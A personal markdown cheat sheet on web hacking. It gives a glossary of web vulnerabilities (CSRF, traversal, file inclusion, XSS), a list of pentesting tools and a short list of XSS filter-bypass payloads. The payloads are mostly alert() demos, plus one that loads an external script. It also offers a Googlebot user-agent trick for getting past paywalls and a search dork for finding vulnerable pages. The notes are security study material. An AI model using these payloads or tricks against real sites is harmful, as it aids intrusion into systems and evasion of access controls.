 # Web Hacking

## Quick Tips

* [Index of all web client & server security topics](https://portswigger.net/web-security/all-topics)
* Where to look = source code (form input/hidden fields, directories & indexes), URL (parameters), cookie (-stored strings), _robots.txt_, _.htaccess_ & _.htpasswd_
* Access paywalled research papers = install a useragent switcher extension and set it to Googlebot (they let SEs read their content)
  * <https://www.reddit.com/r/reddit.com/comments/6o84t/who_else_is_sick_of_sites_hosting_research_papers/c04f3xz>

## Glossary

* **Clickjacking** = tricking user into clicking on something unintended (eg Facebook likejacking, where hidden button overlay induces a pagelike)
* **C/XSRF** (Cross-Site Request Forgery) = coerces a victim into browsing a legit page s/he's currently logged in via a specially crafted URL with parameters having an immediate effect
  * Caused by a lack of mechanisms to check the source of a request (URL referer or generated form token)
* **Directory Traversal** = abuses an input expecting eg a filename with a more elaborate parent hierarchy traversing path (to something interesting eg a filesystem index or password file)
* **File Inclusion** = abuses a page including another page (even PHP scripts) via its URL, loading/executing them with no boundaries/filters in place, bypassing same website policy
  * **Local** (LFI) = only local files are allowed, could still be used by files whose content can be maniplated by attacker (eg access logs)
  * **Remote File Inclusion** (RFI) = any remote file/page can be included (eg `index.php?page=http://www.google.com`, google them via `inurl:"index.php?page="`)
* **XSS** (Cross-Site Scripting) = abuses a legit page's lack of input (URL, form field) sanitization to insert a malicious (JS) script, accounts for 84% of all security vulnerabilities
  * **Persistent** = the script is saved and served back to the victim when she browses a page displaying unsanitized content (eg _MMQ_)
  * **Non-Persistent** or **Reflected** = coerces a victim into browsing a volatile crafted/forged (**GET/POST**) URL holding payload as parameter which get displayed on a page without sanitization
    * Eg a (lousy) search engine results page: _You searched: `javascript:alert('oh no');`_

## Tools

* _BeEF_ (The Browser EXploitation Framework) = pentesting tool focusing on web browser
* _Burp Suite Scanner_ (by _PortSwigger_) = web app vulnerability testing/scanning graphical tool, server-side vulnerabilities, Interactive Application Security Testing (IAST), web proxy, web app crawler
* _CeWL_ (Custom Word List generator) = crawls & extracts a website's keywords, to feed as contextal passwords fragments into a cracker
* `dirb` (directory buster) = scans all (potentially nonreferenced) files/pages on a website via a dictionary/wordlist
* _gobuster_ = scans all (potentially nonreferenced) files/pages on a website via a wordlist
* _IronWASP_ = open-source web app vulnerability testing/scanning, reports, extensible
* _OWASP Zap_ = web app security testing, AJAX Spidering, Fuzzing, REST APIs testing, active/passive scan, Filters, Anti-CSRF tokens, WebSocket testing, HTTP sessions, Spider

## Payloads

### XSS

Examples (different ways to bypass input sanitization):

```PHP
page.php?q="><script>alert('The Hacker News')</script>
page.php?q="><script>alert("The Hacker News")</script>
page.php?q="><script>alert("The Hacker News");</script>
page.php?q="><script>alert(/The Hacker News");</script>
page.php?q=//"><script>alert(/The Hacker News/);</script>
page.php?q=abc<script>alert(/The Hacker News/);</script>
page.php?q=abc"><script>alert(/The Hacker News/);</script>
page.php?q=abc"></script><script>alert(/The Hacker News/);</script>
page.php?q=abc//abc"></script>alert(/The Hacker News/);</script>
page.php?q=000"><script></script><script>alert(The Hacker News);</script>
page.php?q=000abc</script><script>alert(/The Hacker News/);</script>
page.php?q=--<script>"></script>alert(/The Hacker News/);</script>
page.php?q=pwned<script>document.write('The Hacker News');</script>
page.php?q=pwned</script><script>document.write(The Hacker News);</script>
page.php?q=pwned')alert(The Hacker News);//
page.php?q=pwned";)alert(The Hacker News);//
page.php?q=pwned");alert(/The Hacker News/);//
page.php?q=pwned//"></script><script>location.href='javascript:alert(/The Hacker News/);</script>
page.php?q="><img src='javascript:alert('The Hacker News');'>
page.php?q="><script src='http://malicous js'</script>
```
